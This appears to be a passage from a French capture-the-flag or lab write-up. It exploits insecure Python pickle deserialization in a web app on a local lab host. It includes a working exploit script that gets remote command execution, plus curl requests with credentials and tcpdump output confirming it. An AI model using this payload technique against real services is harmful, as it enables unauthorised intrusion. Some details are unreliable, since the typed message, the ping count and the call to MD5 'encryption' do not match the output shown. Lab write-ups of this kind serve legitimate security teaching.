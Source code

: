 # Exploitation 

Nous avons vu que la fonction check_page () charge un fichier, et si nous faisons une désérialisation des données, nous pouvons exécuter une commande. Si vous ne comprenez pas, lisez un article ici.

Nous allons d'abord faire un petit test de sérialisation et de lecture de fichiers pour mieux comprendre le contexte. Si par exemple je veux lire le message que j'ai envoyé. Je dois d'abord crypter le message dans MD5, utilisons Python pour cela.

    >>> import hashlib 
    >>> message = "hello" 
    >>> print(hashlib.md5(message).hexdigest()) 
    5d41402abc4b2a76b9719d911017c592 

Si maintenant dans le champ de texte j'écris "bonjour" et que j'essaie maintenant d'utiliser la fonction / checklist, je peux parfaitement lire mon message qui a été enregistré sur le serveur distant.

    # curl -u 'lucas:SuperSecretPassword123!' 'http://192.168.0.44:1337/checklist' -d "check=5d41402abc4b2a76b9719d911017c592" 
    hello 

Nous devons maintenant tester avec la sérialisation pour exécuter des commandes. Nous devons créer un script Python pour cela, préparez vos claviers.

```python
#coding:utf-8 

import os 
import cPickle 
import hashlib 
import requests 
class CommandExecute(object): 
    def __reduce__(self): 
        return (os.system, ('ping -c 2 192.168.0.17',)) 

convert_data = cPickle.dumps(CommandExecute()) # The message that will be sent to the server with the command. 
convert_crypt = hashlib.md5(convert_data).hexdigest() 
send_requests = requests.post('http://192.168.0.44:1337/', data={"story":convert_data, "submit":"Submit+Query"}, auth=("lucas", "SuperSecretPassword123!")) 
check_requests = requests.post('http://192.168.0.44:1337/checklist', data={"check":convert_crypt}, auth=("lucas", "SuperSecretPassword123!")) 
print(check_requests.text) 
```

Lorsque nous exécutons le script, le serveur nous renvoie des requêtes ICMP, de sorte que la commande a été exécutée avec succès par le serveur. Nous sommes sur la bonne voie.

    # tcpdump -i wlan0 icmp -n 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode 
    listening on wlan0, link-type EN10MB (Ethernet), capture size 262144 bytes 
    14:03:53.499955 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 1, length 64 
    14:03:53.500017 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 1, length 64 
    14:03:54.528969 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 2, length 64 
    14:03:54.529072 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 2, length 64 
    14:03:55.553021 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 3, length 64 
    14:03:55.553110 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 3, length 64 
    14:03:56.577171 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 4, length 64 
    14:03:56.577245 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 4, length 64 
    14:03:57.578394 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 5, length 64 
    14:03:57.578461 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 5, length 64 
